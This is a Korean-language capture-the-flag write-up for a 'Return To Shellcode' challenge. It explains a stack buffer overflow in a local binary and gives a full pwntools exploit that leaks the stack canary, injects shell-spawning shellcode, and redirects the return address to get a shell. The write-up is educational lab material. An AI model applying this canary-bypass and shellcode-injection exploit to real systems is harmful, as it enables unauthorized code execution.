 Return To Shellcode 라이트업
===============


<img width="587" height="266" alt="image" src="https://github.com/user-attachments/assets/afd97a65-b219-4add-ba97-f085270dcf9d" />

checksec을 이용해 보호기법을 먼저 파악해볼 수 있다.

### 취약점 탐색

#### 1. buf의 주소

```c
printf("Address of the buf: %p\n", buf);
printf("Distance between buf and $rbp: %ld\n",
        (char*)__builtin_frame_address(0) - buf);
```

#### 2. 스택 버퍼 오버플로우

```c
char buf[0x50];

read(0, buf, 0x100);   // 0x50 < 0x100
gets(buf);             // Unsafe function
```

코드를 보면 스택 버퍼인 buf에 총 두 번의 입력을 받는데 두 입력 모두에서 오버플로우가 발생한다는 것을 알 수 있다.


### 익스플로잇 시나리오

#### 1. 카나리 우회

첫 번째 입력에서  buf에 오버플로우를 발생시켜 카나리를 구한다.

#### 2. 셸 획득

카나리를 구해서 두 번째 입력으로 반환 주소를 덮는다. get_shell() 함수가 없으므로 셸을 획득하는 코드를 직접 주입해야 한다.


### 익스플로잇

#### 1. 스택 프레임 정보 수집
스택을 이용하여 공격해야 하므로 스택 프레임의 구조를 먼저 파악해야 한다. 

```c
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```


#### 2. 카나리 릭

buf와 카나리 사이를 임의의 값으로 채우면 프로그램에서 buf를 출력할 때 카나리가 같이 출력된다, 

```c
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)
```

#### 3. 익스플로잇

카나리를 구했으므로 buf에 셸코드를 주입하고 카나리를 구한 값으로 덮은 뒤 반환 주소를 buf로 덮으면 셸코드가 실행되게 할 수 있다.

```c
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

<img width="677" height="182" alt="image" src="https://github.com/user-attachments/assets/4b218fdc-b210-4f4f-a17c-d06b96145417" />

공격에 성공해서 쉘이 떳고 여기서 플래그 출력이 가능하다.



